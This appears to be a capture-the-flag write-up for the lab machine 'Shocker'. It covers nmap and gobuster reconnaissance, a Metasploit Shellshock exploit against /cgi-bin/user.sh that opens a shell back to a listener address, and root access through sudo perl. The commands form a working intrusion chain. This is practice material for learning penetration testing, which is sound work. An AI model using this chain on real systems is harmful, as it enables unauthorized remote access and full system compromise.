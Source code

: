 nmap scan:

```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

Use gobuster to bruteforce web directory

```
gobuster dir -u http://10.10.10.56/ -w ./small.txt
```

gobuster find a path that returns 403, this might indicate that we can exploit the Apache cgi shellshock bug

```
/cgi-bin/             (Status: 403) [Size: 294]
```

Search for script file under the directory

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w ./small.txt -x sh
```

We find a file named `user.sh`

```
/user.sh              (Status: 200) [Size: 118]
```

Use `exploit/multi/http/apache_mod_cgi_bash_env_exec`

```
set rhost 10.10.10.56
set lhost 10.10.14.4
set TARGETURI /cgi-bin/user.sh
```

We can get the user flag, but for root flag we need privilege escalation.

Run `sudo -l`, we can run perl as root

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

 `echo 'system("cat /root/root.txt");' > get-flag.pl`

Then run `sudo perl get-flag.pl`